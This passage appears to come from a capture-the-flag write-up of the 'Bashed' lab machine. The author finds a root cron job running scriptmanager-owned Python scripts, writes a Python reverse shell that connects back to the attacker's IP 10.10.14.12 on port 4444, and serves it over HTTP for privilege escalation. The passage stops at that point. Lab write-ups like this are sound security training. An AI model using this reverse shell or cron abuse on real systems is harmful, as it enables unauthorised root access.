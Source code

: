```
RTC in local TZ: no
```

There is a file that's been recently changed (I had to check it using timedatectl since I'm in a different time zone) and that is owned by root, which might mean there is a chanche a cron job is running. The file reads:

```
testing 123!
```

I check the python file owned by scriptmanager and it reads:

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

So this file that is owned by root was recently created by a script that is owned by scriptmanager, which means root (through a cron job) executed it. To make sure of that, I move the "test.txt" file into to "bk.txt". I wait a bit and then check out the directory again:

```
www-data@bashed:/# sudo -H -u scriptmanager bash -c "mv scripts/test.txt scripts/bk.txt"

www-data@bashed:/# sudo -H -u scriptmanager bash -c "ls -la scripts"

total 20
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jan 2 19:45 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 root root 12 Jan 2 19:44 bk.txt
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 2 19:45 test.txt
```

The file was created again, which confirms my theory. So what I do next is create a python reverse shell in my local machine that reads:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ cat revshell.py
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.12",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
```

So I serve it on my local machine through simpleHTTPserver:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ python3 -m http.server 9000 --bind 10.10.14.12
Serving HTTP on 10.10.14.12 port 9000 (http://10.10.14.12:9000/) ...
```
